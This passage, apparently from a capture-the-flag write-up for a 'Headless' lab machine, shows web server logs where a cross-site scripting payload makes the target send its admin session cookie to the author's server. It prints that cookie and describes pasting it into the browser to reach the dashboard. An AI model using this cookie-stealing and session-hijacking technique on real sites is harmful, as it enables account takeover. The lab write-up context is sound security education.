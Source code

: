 ![](/img/image-20240711145941904.png)

With the Response in Render, it actually triggers and hits my webserver:



    10.10.14.6 - - [11/Jul/2024 14:56:48] "GET /?c= HTTP/1.1" 200 -



It doesn't have a cookie, so that's blank. Less than a minute later,
there are more connections from Headless:



    10.10.11.8 - - [11/Jul/2024 14:57:30] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
    10.10.11.8 - - [11/Jul/2024 14:57:33] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
    10.10.11.8 - - [11/Jul/2024 14:57:35] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -



#### Access Dashboard

I'll go into the Firefox dev tools, Storage tab, and replace my cookie
with this value:

![](/img/image-20240711150158243.png)
